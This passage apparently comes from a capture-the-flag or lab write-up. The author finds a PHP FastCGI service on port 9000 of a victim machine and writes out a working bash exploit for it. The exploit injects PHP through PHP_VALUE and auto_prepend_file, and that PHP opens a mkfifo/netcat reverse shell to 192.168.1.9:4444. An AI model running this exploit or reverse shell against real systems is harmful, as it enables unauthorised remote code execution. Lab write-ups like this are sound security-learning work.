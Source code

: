 Since we couldn't access it before, i tried connecting to the server using _netcat_ inside the victim machine:
```bash
nc 127.0.0.1 9000 -v
```
The service give us a connection feedback since the 3 way handshake is completed but we do not get data nor banner back.

## FCGI RCE

Since it doesn't seems right, i tried to google for services that run on port 9000 and eventually i found [this pentest blog](https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/).

The service seems to be a fast-cgi server.

In ordet to exclude false positives, i'll run the following command:
```bash
ps -faux | grep php

# Output:

root         558  0.0  0.2 204508 22184 ?        Ss   16:01   0:00 php-fpm: master process (/etc/php/8.2/fpm/php-fpm.conf)
dodi         630  0.0  0.0 204996  9392 ?        S    16:01   0:00  \_ php-fpm: pool www
dodi         631  0.0  0.0 204996  9392 ?        S    16:01   0:00  \_ php-fpm: pool www
```

We can see that indeed there is a PHP FastCGI server running as dodi user. So i'll test if we can get RCE

To test this hypothesis i'll try to reproduce the exploit mentioned inside the blog article.

- Firts step: I need to create a php file inside  `/dev/shm/` folder:
```bash
touch /dev/shm/index.php
```

- Second step: Create the bash exploit for automation with the following content (change ip and port):
```bash
!#/bin/bash

#exploit.sh file

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.9 4444 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```
